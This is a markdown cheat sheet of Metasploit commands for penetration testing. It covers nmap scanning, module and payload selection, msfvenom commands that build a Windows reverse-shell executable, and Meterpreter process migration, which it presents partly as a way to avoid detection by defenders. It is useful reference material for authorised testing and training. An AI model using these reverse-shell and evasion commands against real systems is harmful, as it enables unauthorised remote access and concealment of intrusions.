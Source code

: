 ```yaml
---
title: "Metasploit"
weight: 4
description: ""
---
```


## Metasploit

```sh
# Start the database service & create and initialize the MSF database
msfdb init

# Enable the database service
sudo systemctl enable postgresql

# Verify database connectivity
db_status

# Create workspace
workspace -a target1

# Scan with nmap
db_nmap -A <TARGET1>

# List of all discovered hosts up
hosts

# Display discovered services
services
services -p 5000 # specific port

# Search all SMB auxiliary modules
search type:auxiliary smb
search apache

# Activate a module
use 5

# Get information about the currently activated module
info

# Display the options of a module
show options

# Get a list of all payloads that are compatible with the currently selected module
show payloads

# set & unset an option
set <OPTION> <VALUE>
unset <OPTION>

# Set a payload
set payload payload/linux/x64/shell_reverse_tcp

# Launch a module
run

# Show vulnerabilities that Metasploit automatically detected based on the results of the executed module
vulns

# Show valid credentials we gathered
creds

# Background session
CTRL + Z

# List all active sessions
sessions -l

# Interact with a session
sessions -i 2
```
---

## msfvenom
```sh
# List payloads
msfvenom -l payloads --platform windows --arch x64

# Create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f exe -o file.exe
```

> **Note**: To handle a staged payload don't use netcat. Use Metasploit’s `multi/handler` instead.

---

## Migrate (meterpreter)

Reason to migrate:
When a host is compromised, the Meterpreter payload runs inside the process used for exploitation. 

* **Stability**: If that process is closed, your access is lost
* **Avoid detection**: The process name may also appear suspicious to defenders
* **Compatibility**: The payload may be 64-bit, but the session is on an 86-bit OS

To avoid this, we can use `migrate` to move the payload to a more stable or inconspicuous process.

> **Note**: Migration is only allowed to processes with the same or lower integrity and privilege level.

```sh
# Show list process
meterpreter > ps

# Migrate
meterpreter > migrate 8052
```

If no suitable process is available for migration, we can use the execute command to create a new process and run the Meterpreter payload within it by specifying a desired command or program.

```sh
# Create a hidden process
meterpreter > execute -H -f notepad

# Migrate
meterpreter > migrate 8052
```

